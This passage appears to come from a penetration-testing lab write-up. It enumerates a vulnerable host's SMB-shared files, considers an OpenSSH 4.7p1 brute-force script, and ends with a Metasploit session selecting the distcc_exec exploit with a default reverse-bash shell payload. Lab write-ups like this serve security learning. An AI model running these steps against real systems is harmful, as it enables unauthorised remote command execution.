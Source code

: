 ```
  .ICE-unix                          DH        0  Sat Sep 16 13:27:28 2023
  vmware-root                        DR        0  Sat Sep 16 13:28:37 2023
  .X11-unix                          DH        0  Sat Sep 16 13:27:54 2023
  .X0-lock                           HR       11  Sat Sep 16 13:27:54 2023
  vgauthsvclog.txt.0                  R     1600  Sat Sep 16 13:27:27 2023
```
Only two files can be retrieved: `vgauthsvclog.txt.0` and `.X0-lock`:
```
$cat X0-lock 
      5683
$cat vgauthsvclog.txt.0 
[Sep 16 07:27:26.972] [ message] [VGAuthService] VGAuthService 'build-4448496' logging at level 'normal'
[Sep 16 07:27:26.972] [ message] [VGAuthService] Pref_LogAllEntries: 1 preference groups in file '/etc/vmware-tools/vgauth.conf'
[Sep 16 07:27:26.972] [ message] [VGAuthService] Group 'service'
[Sep 16 07:27:26.972] [ message] [VGAuthService] 	 samlSchemaDir=/usr/lib/vmware-vgauth/schemas
[Sep 16 07:27:26.972] [ message] [VGAuthService] Pref_LogAllEntries: End of preferences
[Sep 16 07:27:27.033] [ message] [VGAuthService] VGAuthService 'build-4448496' logging at level 'normal'
[Sep 16 07:27:27.033] [ message] [VGAuthService] Pref_LogAllEntries: 1 preference groups in file '/etc/vmware-tools/vgauth.conf'
[Sep 16 07:27:27.033] [ message] [VGAuthService] Group 'service'
[Sep 16 07:27:27.033] [ message] [VGAuthService] 	 samlSchemaDir=/usr/lib/vmware-vgauth/schemas
[Sep 16 07:27:27.033] [ message] [VGAuthService] Pref_LogAllEntries: End of preferences
[Sep 16 07:27:27.033] [ message] [VGAuthService] Cannot load message catalog for domain 'VGAuthService', language 'C', catalog dir '.'.
[Sep 16 07:27:27.033] [ message] [VGAuthService] INIT SERVICE
[Sep 16 07:27:27.033] [ message] [VGAuthService] Using '/var/lib/vmware/VGAuth/aliasStore' for alias store root directory
[Sep 16 07:27:27.082] [ message] [VGAuthService] SAMLCreateAndPopulateGrammarPool: Using '/usr/lib/vmware-vgauth/schemas' for SAML schemas
[Sep 16 07:27:27.112] [ message] [VGAuthService] SAML_Init: Allowing 300 of clock skew for SAML date validation
[Sep 16 07:27:27.112] [ message] [VGAuthService] BEGIN SERVICE
```
I do not know what to do with this information.

### SSH
The SSH server version is OpenSSH 4.7p1. According to a GitHub script, it seems this version is vulnerable: https://github.com/pankajjarial360/OpenSSH_4.7p1
However, by reading the exploit, it seems to run a bruteforce using MetaSploit and a default wordlist. I do not see how this could exploit anything. I run it just to be sure but I have no hope.

### distcc
distcc seems to have a vulnerability that could be exploit using MetaSploit:
```
[msf](Jobs:0 Agents:0) >> search exploit distcc

Matching Modules
================

   #  Name                           Disclosure Date  Rank       Check  Description
   -  ----                           ---------------  ----       -----  -----------
   0  exploit/unix/misc/distcc_exec  2002-02-01       excellent  Yes    DistCC Daemon Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/misc/distcc_exec

[msf](Jobs:0 Agents:0) >> use 0
[*] No payload configured, defaulting to cmd/unix/reverse_bash
```